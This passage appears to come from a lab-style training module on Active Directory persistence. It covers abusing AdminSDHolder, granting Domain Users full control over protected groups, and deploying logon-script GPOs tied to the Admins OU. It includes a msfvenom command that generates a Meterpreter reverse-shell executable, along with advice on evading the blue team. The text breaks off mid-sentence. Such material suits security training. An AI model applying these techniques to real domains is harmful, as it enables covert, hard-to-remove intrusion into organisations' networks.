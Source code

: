 Imagine combining this with the nesting groups of the previous task. Just as  the blue team finished revoking your access through numerous group  changes, 60 minutes later, you can just do it all again. Unless the blue team understands that the permissions are being altered through the  AdminSDHolder group, they would be scratching their heads every 60  minutes. Since the persistence propagates through a legitimate AD  service, they would most likely be none the wiser every time it happens. If you really want to persist, you can grant full control to the Domain Users group in the AdminSDHolder group, which means any low-privileged  user would be granted full control over all Protected Groups. Combining  this with a full DC Sync means the blue team will have to reset every  single credential in the domain to flush us out completely.

# Persistence through GPOs

The last persistence technique we will review is persistence through  Group Policy Objects (GPOs). At this point, you should be familiar with  GPOs based on all the different enumeration, attack, and exploitation  techniques we have discussed. However, GPOs are also excellent for  deploying persistence.

Group Policy Management in AD  provides a central mechanism to manage the local policy configuration of all domain-joined machines. This includes configuration such as  membership to restricted groups, firewall and AV configuration, and which scripts should be executed upon startup. While this is an excellent tool for management, it can be targeted by  attackers to deploy persistence across the entire estate. What is even  worse is that the attacker can often hide the GPO in such a way that it  becomes almost impossible to remove it.

### Domain Wide Persistence

The following are some common GPO persistence techniques:

- Restricted Group Membership - This could allow us administrative access to all hosts in the domain
- Logon Script Deployment - This will ensure that we get a shell callback every time a user authenticates to a host in the domain. 

There are many different hooks that can be deployed. You can play around with GPOs to learn about other hooks. Since we already used the first hook,  Restricted Group Membership, in the Exploiting AD room. Let's now focus  on the second hook. While having access to all hosts are nice, it can be even better by ensuring we get access to them when administrators are  actively working on them. To do this, we will create a GPO that is  linked to the Admins OU, which will allow us to get a shell on a host every time one of them authenticates to a host.

#### Preparation

Before we can create the GPO. We first need to create our shell, listener, and the actual bat file that will execute our shell. Let's start by  generating a basic executable shell that we can use:

```shell
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=persistad lport=4445 -f exe > <username>_shell.exe
```

Make sure to add your username to the binary name to avoid overwriting the  shells of other users. Windows allows us to execute Batch or PowerShell  scripts through the logon GPO. Batch scripts are often more stable than  PowerShell scripts so lets create one that will copy our executable to  the host and execute it once a user authenticates. Create the following  script called `<username>_script.bat` on the 
